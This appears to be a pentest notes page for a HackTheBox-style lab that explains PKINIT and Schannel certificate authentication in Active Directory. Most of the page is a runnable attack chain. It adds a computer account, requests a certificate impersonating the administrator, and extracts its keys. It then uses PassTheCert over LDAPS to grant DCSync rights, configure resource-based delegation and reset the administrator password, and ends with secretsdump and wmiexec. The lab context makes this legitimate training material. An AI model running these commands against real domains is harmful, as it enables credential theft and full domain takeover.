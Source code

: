 ```yaml
---
description: Kerberos extension that allows users to authenticate using X.509 certificates
---
```


# PKINIT

### <mark style="color:yellow;">PKINIT and Kerberos Authentication</mark>

PKINIT is an extension for Kerberos Protocol to enable public key cryptography for authentication. Kerberos uses symmetric key crypto so a client and KDC share a key. PKINIT allows to authenticate using a public key which is more secure.

{% hint style="info" %}
`PKINIT` utilizes `X.509 certificates` issued by `ADCS` to support public key crypto during authentication. ADCS issues certificates to clients in the PKINIT process, allowing them to use public-private key pairs.
{% endhint %}

### <mark style="color:yellow;">Secure Channel (Schannel) Authentication</mark>

`Schannel`, Window's security support provider for `TLS/SSL connections`. It handles client authentication using certificates. When a client connects, the server requests a certificate to verify identity, it client has a trusted CA-issued certificate the servers grants access.

Schannel tries to link credentials to a user using Kerberos S4U2Self, if that fails it checks other methods like MS-RCMP. By default, only a few protocols in Active Directory support Schannel authentication, such as **WinRM, RDP, and IIS** (with extra setup).

#### Start with adding a computer

```sh
addcomputer.py 'authority.htb/blwasp':'Password123!' -method LDAPS -computer-name 'HTB01$' -computer-pass 'MyPassword123!' -dc-ip 10.129.229.56
```

#### Request certificate with alternative SAN

```shell-session
certipy req -u 'HTB01$' -p 'MyPassword123!' -ca AUTHORITY-CA -dc-ip 10.129.229.56 -template CorpVPN -upn administrator@authority.htb
```

#### Authenticate

```sh
$ certipy auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

This `ADCS server` does not support `PKINIT` causing the error.

## PassTheCert

Extract the private key from .pfx, needs a value form pem phrase.

```sh
openssl pkcs12 -in administrator.pfx -nocerts -out administrator.key
```

Extract the public key from .pfx

```shell-session
openssl pkcs12 -in administrator.pfx -clcerts -nokeys -out administrator.crt
```

Remove passphrase and write RSA

```shell-session
openssl rsa -in administrator.key -out administrator-nopass.key
```

### <mark style="color:yellow;">DCSync</mark>

```sh
# Passthecert grant rights
python3 passthecert.py -dc-ip 10.129.229.56 -crt administrator.crt -key administrator-nopass.key -domain authority.htb -port 636 -action modify_user -target blwasp -elevate

# DCSync
secretsdump.py 'authority.htb/blwasp':'Password123!'@10.129.229.56
```

### <mark style="color:yellow;">RBCD</mark>

```sh
# Create new computer
python3 passthecert.py -dc-ip 10.129.229.56 -crt administrator.crt -key administrator-nopass.key -domain authority.htb -port 636 -action add_computer -computer-name 'HTB02$' -computer-pass AnotherComputer002

# Add delegation rights
python3 passthecert.py -dc-ip 10.129.229.56 -crt administrator.crt -key administrator-nopass.key -domain authority.htb -port 636 -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from 'HTB02$'

# Get TGT
getST.py -spn 'cifs/authority.authority.htb' -impersonate Administrator 'authority.htb/HTB02$:AnotherComputer002'

# Authenticate
KRB5CCNAME=Administrator.ccache wmiexec.py -k -no-pass authority.authority.htb
```

### <mark style="color:yellow;">Password Reset</mark>

```sh
# Password Reset
python3 passthecert.py -dc-ip 10.129.229.56 -crt administrator.crt -key administrator-nopass.key -domain authority.htb -port 636 -action modify_user -target administrator -new-pass HackingViaLDAPS001

# Authenticate
wmiexec.py administrator:HackingViaLDAPS001@10.129.229.56
```
